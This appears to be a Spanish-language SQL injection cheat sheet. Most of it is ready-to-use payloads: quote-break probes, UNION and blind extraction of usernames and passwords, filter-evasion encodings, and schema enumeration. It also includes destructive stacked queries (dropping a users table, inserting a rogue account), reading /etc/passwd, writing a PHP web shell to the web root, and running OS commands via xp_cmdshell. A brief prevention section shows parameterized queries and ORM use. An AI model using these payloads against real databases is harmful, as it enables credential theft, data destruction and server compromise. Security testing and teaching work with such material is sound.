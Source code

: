 # SQL Injection Cheat Sheet

## Detección Básica

### 1. Pruebas Simples
```sql
-- Caracteres básicos de prueba
'
"
`
')
")
`)
'))
"))
`))

-- Operadores lógicos
OR 1=1
AND 1=1
AND 1=2
OR 'a'='a
OR 'a'='b
```

### 2. Inyecciones de Error
```sql
-- Errores de sintaxis
'convert(int,@@version)--
'+CAST('1' as int)+'
@@version
```

## Técnicas de Extracción

### 1. UNION Based
```sql
-- Determinar número de columnas
UNION SELECT NULL--
UNION SELECT NULL,NULL--
UNION SELECT NULL,NULL,NULL--

-- Extracción de datos
UNION SELECT username,password FROM users--
UNION SELECT table_name,NULL FROM information_schema.tables--
```

### 2. Time Based
```sql
-- Inyecciones basadas en tiempo
'; WAITFOR DELAY '0:0:10'--
'; IF (SELECT COUNT(*) FROM users) > 100 WAITFOR DELAY '0:0:10'--

-- Extracción bit a bit
IF ASCII(SUBSTRING((SELECT TOP 1 name FROM users),1,1)) > 70 WAITFOR DELAY '0:0:10'
```

### 3. Boolean Based
```sql
-- Extracciones booleanas
AND 1=1
AND (SELECT TOP 1 name FROM users) > 'a'
AND ASCII(SUBSTRING((SELECT TOP 1 password FROM users),1,1)) > 70
```

## Bypass Techniques

### 1. Evasión de Filtros
```sql
-- Comentarios alternativos
/*
//
--
#
;%00

-- Codificación
SELECT -> SEL%45CT
UNION -> UN%49ON
```

### 2. Casos Especiales
```sql
-- Bypass de comillas
admin' -> admin'+OR+'1'='1

-- Bypass de espacios
SELECT/**/password/**/FROM/**/users
```

## Extracción de Información

### 1. Information Schema
```sql
-- Enumerar bases de datos
SELECT schema_name FROM information_schema.schemata

-- Enumerar tablas
SELECT table_name FROM information_schema.tables

-- Enumerar columnas
SELECT column_name FROM information_schema.columns WHERE table_name='users'
```

### 2. Database Info
```sql
-- Versión
SELECT @@version

-- Usuario actual
SELECT user
SELECT current_user
SELECT system_user

-- Base de datos actual
SELECT database()
```

## Comandos Avanzados

### 1. Stacked Queries
```sql
-- Múltiples consultas
; DROP TABLE users--
; INSERT INTO users VALUES ('hacker','pass123')--
```

### 2. File Operations
```sql
-- Lectura/escritura de archivos (MySQL)
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/shell.php'

-- SQL Server xp_cmdshell
EXEC xp_cmdshell 'net user'
```

## Prevención

### 1. Prepared Statements
```python
# Python (con SQLite3)
cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

# PHP (con MySQL)
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$user_id]);
```

### 2. ORM Usage
```python
# Django
User.objects.filter(id=user_id)

# SQLAlchemy
session.query(User).filter(User.id == user_id)
```

### 3. Buenas Prácticas
- Usar prepared statements siempre
- Implementar WAF (Web Application Firewall)
- Principio de mínimo privilegio
- Sanitizar y validar todas las entradas
- Manejo adecuado de errores
- Auditorías regulares de código
- Mantener sistemas actualizados

## Herramientas Útiles
- SQLmap
- Burp Suite
- OWASP ZAP
- SQLninja
- NoSQLmap (para bases NoSQL)
